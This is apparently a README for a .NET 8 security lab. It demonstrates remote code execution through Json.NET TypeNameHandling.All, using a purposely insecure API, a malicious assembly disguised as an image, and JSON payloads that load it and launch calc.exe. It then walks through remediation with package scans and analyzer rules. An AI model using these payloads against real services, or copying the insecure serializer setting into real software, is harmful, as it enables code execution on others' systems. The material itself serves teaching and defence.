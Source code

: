 # .NET 8 Json.NET Serialization Vulnerability

Exploiting JSON serialization vulnerabilities in .NET is more challenging than in the .NET Framework. The .NET Framework gadget chains exploited by [ysoserial.net](https://github.com/pwntester/ysoserial.net) have been remediated in .NET. 

This exploit requires setting _TypeNameHandling_ to _TypeNameHandling.All_. System.Text.Json does not natively allow type names to be included in serialized messages and is recommended. Further, with .NET 6+ it is not possible to override the default JSON serializer from System.Text.Json when using minimal APIs. See [Minimal APIs quick reference](https://learn.microsoft.com/en-us/aspnet/core/fundamentals/minimal-apis?view=aspnetcore-8.0&WT.mc_id=MVP_337682#configure-json-deserialization-options-for-body-binding).

``` C#
builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
```

The MaliciousAssembly project includes a property that launches a process using the value of the property:

``` C#
using System.Diagnostics;
. . .
public string ProcessLaunch
{
    get
    {
        return processName;
    }
    set
    {
        processName = value;
        Process.Start(value);
    }
}
```

The build process copies the MaliciousAssembly to the bin directory of the Todo API as _someimage.png_. This simulates an insecure file upload process. Which can be exploited through the _Metadata_ property of the _TodoItem_.

``` C#
public class TodoItem
{
    public long Id { get; set; }
    public string? Name { get; set; }
    public bool IsComplete { get; set; }

    public Dictionary<string, object>? Metadata { get; set;}
}

```

This can be exploited using the following message:

``` JSON
{
  "name": "walk dog1",
  "isComplete": true,
  "metadata":
    {
        "data2": {
		   "$type": "System.IO.FileInfo, System.IO.FileSystem",
		   "fileName": "rce-test.txt"
	     }
    }
}
```
## Load the malicious file

The first REST API call loads the malicious file using:

``` JSON
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "load assembly",
  "isComplete": true,
  "metadata":
    {
        "data2":  {"$type":"System.Configuration.Install.AssemblyInstaller, 
            System.Configuration.Install",
            "Path":"someimage.png"}
    }
}
```
The _Path_ is local; however, in a production environment, it could be loaded from a temporary directory or another local directory.

## Invoke the Malicious Property

Now that the Assembly is in the AppDomain, the ProcessLaunch property can be invoked:

``` JSON 
POST https://localhost:7040/api/TodoItems HTTP/1.1
content-type: application/json

{
  "name": "launch calc",
  "isComplete": true,
  "metadata":
    {
        "launchdata":  
           { "$type":"MaliciousAssembly.ProcessStarter, MaliciousAssembly",
             "ProcessLaunch":"calc.exe" 
            }
    }
}
```

These calls are available in the _requests.http_ file. Running these examples in Visual Studio Code requires the [REST Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client) extension.

## Remediating the Vulnerability

The next section covers how to close the security vulnerabilities exposed in the prior exercise.

### Scanning for Github Security Advisories

Scan the solution for known vulnerabilities using `dotnet`.

1. Navigate to the solution folder in a command prompt.

1. Execute the following and observe the results.
    ```
    dotnet list package --vulnerable
    ```
1. Execute the a check for transitive dependencies and observe the results.
    ```
    dotnet list package --vulnerable --include-transitive
    ```

Update any vulnerable Nuget packages that are directly referenced. Investigate and update vulnerable transitive dependencies if possible.

For more information, please see:
[How to Scan NuGet Packages for Security Vulnerabilities](https://devblogs.microsoft.com/nuget/how-to-scan-nuget-packages-for-security-vulnerabilities/?WT.mc_id=MVP_337682)

### Code Analysis Rules

Code Analysis Rules can be used to identify common security vulnerabilities and other issues. For more information, see [roslyn-analyzers](https://github.com/dotnet/roslyn-analyzers#microsoftcodeanalysisnetanalyzers).

1. Install the latest released [Microsoft.CodeAnalysis.NetAnalyzers](https://www.nuget.org/packages/Microsoft.CodeAnalysis.NetAnalyzers) Nuget package in the TodoApi.

1. Open File Explorer and navigate to the .nuget installation directory and review the folders under: 
    ```
    %USERPROFILE%\.nuget\packages\microsoft.codeanalysis.netanalyzers\8.0.0\editorconfig
    ```
1. Copy the `.editorconfig` file in the `AllRulesDefault` folder to the solution folder. This is the same folder that contains the `.NET8-JsonVulnerabilties.sln` file. The `SecurityRulesEnabled\.editorconfig` folder includes security rules set to warning and all others set to none. Default rules includes security rules set to 

1. In Visual Studio, right-click on the `Solution Items` folder and select `Add | Existing Item...`. Add the `.editorconfig` file from the solution root directory.

1. Rebuild and observe the Warning messages returned in the 

    ![Observe Warnings](./images/serialization01.png "Observe Warnings")

1. Warnings alert us to the issue, but they don't block the build. To prevent the Newtonsoft Json.NET security vulnerability, change the severity level to Error. Double-click the `.editorconfig` file, select the `Analyzers` tab. Search for `TypeName`. This is enough to find the `TypeNameResolver`. Change the Warning to Error. Save the `.editorconfig`.

    ![Warnings to Errors](./images/serialization02.png "Warnings to Errors")

1. Attempt to rebuild the solution. Observe that rebuilding fails with four errors.

1. Resolve the TypeNameResolver error in the Todo API project by commenting out line 11 in Program.cs in the Todo API project which applies the `TypeNameHandling.All` value. Observe that three security code analysis errors remain.

    ``` C#
    builder.Services.AddControllers().AddNewtonsoftJson(
    options =>
    {
        // options.SerializerSettings.TypeNameHandling = TypeNameHandling.All;
        options.SerializerSettings.ReferenceLoopHandling = ReferenceLoopHandling.Ignore;
    });
    ```

1. In the JsonDeserialization.cs file in the RCESerialization.Test project, apply the following attribute to the test class. Observe that no code analysis errors remain.

    ```C#
    namespace SerializationRCE
    {

    [System.Diagnostics.CodeAnalysis.SuppressMessage("Security", "CA2326:Do not use TypeNameHandling values other than None", Justification = "Test class. This is not production code.")]
    public class JsonDeserialization
    ```


